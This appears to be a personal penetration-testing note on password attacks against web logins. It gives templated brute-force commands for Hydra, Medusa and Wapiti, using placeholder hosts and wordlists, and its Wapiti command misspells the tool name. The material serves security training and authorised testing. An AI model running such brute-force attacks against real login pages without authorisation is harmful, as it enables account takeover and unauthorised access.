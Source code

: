 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - broken-authentication
  - initial-access
  - password-cracking
  - hydra
  - medusa
  - wapiti
---
```

# Password Attacks

## 01 - [[03 - Offensive Infrastructure/E - Setup Machine/0x02 - Offensive Tools/Password Cracking/Online/Hydra|Hydra]]

```
$ hydra -L users.lst -P passwords.lst http[s]-get <IP> [-s <PORT>]

$ hydra -L users.lst -P passwords.lst http[s]-get://<IP>:[<PORT>][/path/to/URI]
```

## 02 - Medusa

```
$ medusa -H <IP> -U users.lst -P passwords.lst -M http [-m DIR:/path/to/URI]
```

## 03 - Wapiti

```
$ waptiti -u <URL> -m brute_login_form
```

---
## References

### Backlinks

- [[04 - Brute Force]]

### Ethical hacking and penetration testing

- [Ethical hacking and penetration testing: How to hack HTTP Basic and Digest Authentication](https://miloserdov.org/?p=5303)